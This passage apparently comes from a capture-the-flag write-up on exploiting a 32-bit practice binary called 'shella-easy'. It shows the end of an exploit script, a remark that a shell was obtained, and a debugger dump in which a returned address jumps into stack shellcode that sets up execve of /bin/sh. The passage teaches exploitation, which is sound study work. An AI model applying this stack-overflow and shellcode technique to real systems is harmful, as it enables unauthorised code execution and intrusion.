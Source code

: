 ```
target.interactive()
```

When we run the exploit:

![running_exploit](pics/running_exploit.png)

Just like that we popped a shell. Also one more thing I want to show, the shellcode we push on the stack can be disassembled to assembly instructions. Let's break right at the `ret` instruction which executes our shellcode (I did this by editing the breakpoint in the exploit to `0x0804855a`, then running it):

```
Breakpoint 1, 0x0804855a in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x31313131 ("1111"?)
$ecx   : 0xf7f475a0  →  0xfbad208b
$edx   : 0xf7f4887c  →  0x00000000
$esp   : 0xfff4cb1c  →  0xfff4cad0  →  0x6850c031
$ebp   : 0x31313131 ("1111"?)
$esi   : 0xf7f47000  →  0x001b1db0
$edi   : 0xf7f47000  →  0x001b1db0
$eip   : 0x0804855a  →  <main+127> ret 
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────── stack ────
0xfff4cb1c│+0x0000: 0xfff4cad0  →  0x6850c031	 ← $esp
0xfff4cb20│+0x0004: 0x00000000
0xfff4cb24│+0x0008: 0xfff4cbb4  →  0xfff4e297  →  "./shella-easy"
0xfff4cb28│+0x000c: 0xfff4cbbc  →  0xfff4e2a5  →  "QT_QPA_PLATFORMTHEME=appmenu-qt5"
0xfff4cb2c│+0x0010: 0x00000000
0xfff4cb30│+0x0014: 0x00000000
0xfff4cb34│+0x0018: 0x00000000
0xfff4cb38│+0x001c: 0xf7f47000  →  0x001b1db0
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048551 <main+118>       mov    eax, 0x0
    0x8048556 <main+123>       mov    ebx, DWORD PTR [ebp-0x4]
    0x8048559 <main+126>       leave  
 →  0x804855a <main+127>       ret    
   ↳  0xfff4cad0                  xor    eax, eax
      0xfff4cad2                  push   eax
      0xfff4cad3                  push   0x68732f2f
      0xfff4cad8                  push   0x6e69622f
      0xfff4cadd                  mov    ebx, esp
      0xfff4cadf                  push   eax
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shella-easy", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804855a → main()
```